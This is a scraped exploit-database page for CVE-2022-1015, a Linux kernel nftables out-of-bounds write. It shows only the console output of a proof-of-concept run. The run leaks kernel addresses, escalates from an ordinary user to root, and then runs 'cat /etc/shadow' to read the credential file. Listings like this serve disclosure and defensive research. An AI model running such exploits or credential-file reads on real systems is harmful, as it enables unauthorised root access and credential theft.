 ```yaml
---
title: Exploit for Out-of-bounds Write in Linux Linux Kernel exploit
url: https://sploitus.com/exploit?id=19C06A56-2589-525D-AA16-1436A60FCA7E&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-07
fetch_date: 2025-10-04T08:47:41.543350
---
```


# Exploit for Out-of-bounds Write in Linux Linux Kernel exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Out-of-bounds Write in Linux Linux\_Kernel CVE-2022-1015

2023-03-06 | CVSS 6.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=19C06A56-2589-525D-AA16-1436A60FCA7E
# CVE-2022-1015

```
# id
uid=1000(d) gid=1000(d) groups=1000(d)
# ./poc
[+] unshare done
[*] table created: leak_table
[*] chain created: leak_chain
[*] rule added
[*] Listening on port 9999
[*] table created: leak_table
[*] chain created: leak_chain
[*] rule added
[*] Listening on port 9999
    kernel_address: ffffffffb4a00000
    kernel_stack: ffffc0bb0037fdf0
[*] Saved userland registers
[#] cs: 0x33
[#] ss: 0x2b
[#] rsp: 0x7ffcef818110
[#] rflags: 0x246

[*] table created: write_table
[*] chain created: write_chain
[*] rule added
uid=0(root) gid=0(root)
# id
uid=0(root) gid=0(root)
# cat /etc/shadow
root::::::::
daemon:*:::::::
bin:*:::::::
sys:*:::::::
sync:*:::::::
mail:*:::::::
www-data:*:::::::
operator:*:::::::
nobody:*:::::::
sshd:*:::::::
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
